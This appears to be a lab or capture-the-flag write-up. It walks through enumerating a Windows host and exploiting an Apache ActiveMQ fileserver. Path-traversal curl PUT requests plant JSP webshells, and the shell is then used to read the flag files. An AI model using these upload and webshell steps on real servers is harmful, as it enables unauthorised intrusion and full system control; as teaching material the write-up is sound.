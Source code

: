 * [Recon-Enumeration](#recon-enumeration)
* [Exploit](#exploit)
* [Privesc](#privesc)

## Recon-Enumeration  
nmap -A -p- 10.2.0.15  
![alt text](./img/active01.PNG?raw=true)  
![alt text](./img/active02.PNG?raw=true)  
![alt text](./img/active03.PNG?raw=true)  

enum4linux 10.2.0.15  
![alt text](./img/active04.PNG?raw=true)  
![alt text](./img/active05.PNG?raw=true)  

dirsearch -u http://10.2.0.15:8161/ -w ~/wordlists/big.txt -t 100 -e php,html,aspx,txt,xml -f --full-url  
![alt text](./img/active09.PNG?raw=true)  
![alt text](./img/active06.PNG?raw=true)   

Let’s start Burpsuite and try to login with admin:admin  
![alt text](./img/active07.PNG?raw=true)  

The highlight section looks encoded. Let’s discover with [CyberChef](https://gchq.github.io/CyberChef/)  
![alt text](./img/active08.PNG?raw=true)  

So the credentials are send encoded with base64

In nmap we can see the versions of the applications  
![alt text](./img/active10.PNG?raw=true)  

## Exploit  
Let’s try to find exploit to them…  
![alt text](./img/active11.PNG?raw=true)  
![alt text](./img/active12.PNG?raw=true)  

We didn't found an exploit for this version of Jetty, however to ActiveMQ we have some. Let’s read the 40857.txt

searchsploit -x windows/remote/40857.txt  
![alt text](./img/active13.PNG?raw=true)  
![alt text](./img/active14.PNG?raw=true)  
  
We can just follow the steps:  
Run the command: echo admin: admin, admin > jetty-realm.properties  
Run the command: touch cmd.jsp  
Put he above lines in the cmd.jsp file:  
PS: Is the same on the exploit description  
![alt text](./img/active26.PNG?raw=true)  

Run the commands:  
curl -v -X PUT --data "@jetty-realm.properties" http://10.2.0.15:8161/fileserver/..\\..\\conf\\jetty-realm.properties  
Restart the target machine  
curl -u 'admin:admin' -v -X PUT --data "@cmd.jsp" http://10.2.0.15:8161/fileserver/..\\admin\\cmd.jsp  
Access the page http://10.2.0.15:8161/admin/cmd.jsp  
Use the credentials admin:admin  
Ready, now we have an webshell  
![alt text](./img/active15.PNG?raw=true)  

## Privesc  
Running whoami we discover we are system:  
![alt text](./img/active16.PNG?raw=true)  

We already have system, however the dir command doesn’t work. So let’s try to get a shell or more information…  
![alt text](./img/active17.PNG?raw=true)  
![alt text](./img/active18.PNG?raw=true)  

Ok, i had some problems to run some commands and get shell. So i uploaded another .jsp webshell with the above code:  
PS: On kali is the same code of the file /usr/share/webshells/jsp/cmdjsp.jsp  
![alt text](./img/active25.PNG?raw=true)  

Run the command:  
curl -u 'admin:admin' -v -X PUT --data "@cmdjsp.jsp" http://10.2.0.15:8161/fileserver/..\\admin\\cmdjsp.jsp  

Now we have 2 webshells that complement each other  
![alt text](./img/active20.PNG?raw=true)  

cd c:\ & dir *.txt /s /p > c:\windows\temp\aaa.txt & type c:\windows\temp\aaa.txt  
![alt text](./img/active21.PNG?raw=true)  
  
![alt text](./img/active22.PNG?raw=true)  
  
type c:\Users\public\user.txt  
![alt text](./img/active23.PNG?raw=true)  

type c:\Users\Administrador.WIN-439TMFLJJ23\root.txt.txt  
![alt text](./img/active24.PNG?raw=true)  
